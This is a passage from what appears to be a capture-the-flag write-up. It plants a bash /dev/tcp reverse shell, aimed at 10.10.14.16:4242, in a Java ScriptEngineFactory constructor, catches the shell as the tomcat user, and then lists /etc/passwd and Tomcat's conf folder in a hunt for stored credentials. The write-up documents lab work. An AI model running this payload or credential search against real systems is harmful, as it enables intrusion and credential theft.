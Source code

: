 
We modify it to use the reverse shell Java payload from
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java)
and catch the new exception in the Java code as shown in the code block below.

    :::Java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec(new String[] { "/bin/bash", "-c", "exec 5<>/dev/tcp/10.10.14.16/4242;cat <&5 | while read line; do $line 2>&5 >&5; done" });
            p.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }

Running it give us a reverse shell as the `tomcat` user.

    :::text
    $ nc -l -p 4242
    id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

## Stored credential

We start enumerating and found out that the user is probably `admin`.

    :::text
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    <SNIP>
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    tomcat:x:1001:1001::/opt/tomcat:/bin/false
    admin:x:1000:1000:,,,:/home/admin:/bin/bash

When looking at the directories, we found a `conf` folder containing the
`tomcat-users.xml` file. This file classically store the user that can access
the tomcat manager panel (which is not exposed on this box).

    :::text
    ls -alR conf
    conf:
    total 240
    drwxr-x--- 2 root tomcat   4096 Dec 28 00:37 .
    drwxr-xr-x 9 root tomcat   4096 Oct 11 14:07 ..
    -rw-r----- 1 root tomcat  12873 Sep 10 08:25 catalina.policy
    -rw-r----- 1 root tomcat   7262 Sep 10 08:25 catalina.properties
    -rw-r----- 1 root tomcat   1400 Sep 10 08:25 context.xml
    -rw-r----- 1 root tomcat   1149 Sep 10 08:25 jaspic-providers.xml
    -rw-r----- 1 root tomcat   2313 Sep 10 08:25 jaspic-providers.xsd
    -rw-r----- 1 root tomcat   4144 Sep 10 08:25 logging.properties
    -rw-r----- 1 root tomcat   7588 Sep 10 08:25 server.xml
    -rw-r----- 1 root tomcat   2234 Dec 28 00:37 tomcat-users.xml
    -rw-r----- 1 root tomcat   2558 Sep 10 08:25 tomcat-users.xsd
    -rw-r----- 1 root tomcat 172359 Sep 10 08:25 web.xml
